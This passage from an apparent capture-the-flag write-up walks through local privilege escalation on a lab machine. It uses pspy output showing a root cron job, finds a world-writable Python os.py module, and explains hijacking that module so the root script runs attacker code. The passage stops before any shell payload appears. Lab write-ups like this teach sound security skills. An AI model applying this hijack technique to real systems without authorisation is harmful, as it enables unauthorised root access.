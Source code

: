 I uploaded [pspy](https://github.com/DominicBreuker/pspy) to target, and
noticed that root was running this script every two minutes:

    
    
    2019/02/12 15:18:01 CMD: UID=0    PID=26106  | /usr/bin/python /opt/server_admin/reporter.py 
    2019/02/12 15:18:01 CMD: UID=0    PID=26105  | /bin/sh -c /opt/server_admin/reporter.py 
    2019/02/12 15:18:01 CMD: UID=0    PID=26104  | /usr/sbin/CRON -f 
    2019/02/12 15:20:01 CMD: UID=0    PID=26109  | /usr/bin/python /opt/server_admin/reporter.py 
    2019/02/12 15:20:01 CMD: UID=0    PID=26108  | /bin/sh -c /opt/server_admin/reporter.py 
    2019/02/12 15:20:01 CMD: UID=0    PID=26107  | /usr/sbin/CRON -f 
    

#### os.py

Finally, I noticed that the python module, `os`, was writable:

    
    
    friend@FriendZone:/usr/lib/python2.7$ find -type f -writable -ls
       262202     28 -rw-rw-r--   1 friend   friend      25583 Jan 15 22:19 ./os.pyc
       282643     28 -rwxrwxrwx   1 root     root        25910 Jan 15 22:19 ./os.py
    

### Python Library Hijack

Rastating has a good write-up on [Python Library
Hijacking](https://rastating.github.io/privilege-escalation-via-python-
library-hijacking/). I can use the following command to see the python path
order:

    
    
    friend@FriendZone:/dev/shm$ python -c 'import sys; print "\n".join(sys.path)'
    
    /usr/lib/python2.7
    /usr/lib/python2.7/plat-x86_64-linux-gnu
    /usr/lib/python2.7/lib-tk
    /usr/lib/python2.7/lib-old
    /usr/lib/python2.7/lib-dynload
    /usr/local/lib/python2.7/dist-packages
    /usr/lib/python2.7/dist-packages
    

I _think_ that blank line at the top indicates the current directory of the
script.

The most common case for this kind of hijack is finding the directory
containing the python script writable. In that case, I could drop an `os.py`
in next to `reporter.py` and it would load there before checking
`/usr/lib/python2.7/`. In this case, I actually can’t write to
`/opt/server_admin/`. But I can write directly to the normal version of this
module.

I’ll open the file in `vi`, and go to the bottom. There, I’ll add a shell to
myself:

    
    
    ...[snip]...
    def _pickle_statvfs_result(sr):
        (type, args) = sr.__reduce__()
        return (_make_statvfs_result, args)
    